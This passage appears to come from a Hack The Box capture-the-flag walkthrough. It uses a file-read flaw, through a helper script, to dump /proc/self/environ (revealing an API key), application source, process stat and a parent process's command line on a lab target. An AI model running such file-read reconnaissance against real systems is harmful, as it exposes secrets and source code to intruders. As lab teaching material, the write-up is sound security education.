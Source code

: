 ```

oxdf@hacky$ ./get_file.sh /proc/self/environ | tr '\000' '\n'
USER=htb
HOME=/home/htb
OLDPWD=/
PORT=80
LOGNAME=htb
JOURNAL_STREAM=9:18599
APP_MODULE=app.main:app
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
INVOCATION_ID=0ace2198aa724422b25a8057eef74fdd
LANG=C.UTF-8
API_KEY=68b329da9893e34099c7d8ad5cb9c940
HOST=0.0.0.0
PWD=/home/htb

```

The working directory is `/home/htb`, and the Python app is `app.main:app`. That means that it’s loading the `app` object from `app/main.py`.

That path works to read the source:

```

oxdf@hacky$ ./get_file.sh /home/htb/app/main.py
import asyncio                      

from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
from fastapi_contrib.common.responses import UJSONResponse
...[snip]...

```

I could also use `/proc/self/app/main.py` to get the same result.

Another useful bit of info I could glean from `/proc` is to get the [parent pid](https://www.linuxquestions.org/questions/linux-enterprise-47/ppid-from-proc-file-system-594775/) from `stat`:

```

oxdf@hacky$ ./get_file.sh /proc/self/stat
2265 (python3) S 2254 2241 2241 0 -1 4194304 23201 101 0 0 77 7 0 0 20 0 2 0 320599 157327360 16662 18446744073709551615 4194304 7042053 140735671126528 0 0 0 0 16781312 16386 0 0 0 17 1 0 0 0 0 0 9395632 9685776 35241984 140735671131712 140735671131841 140735671131841 140735671132135 0

```

It’s the forth column, so 2254 in this case. I’ll grab that `cmdline`:

```

oxdf@hacky$ ./get_file.sh /proc/2254/cmdline | tr '\000' ' '
/usr/bin/python3 /home/htb/.local/bin/uvicorn --reload --host 0.0.0.0 --port 80 app.main:app

```
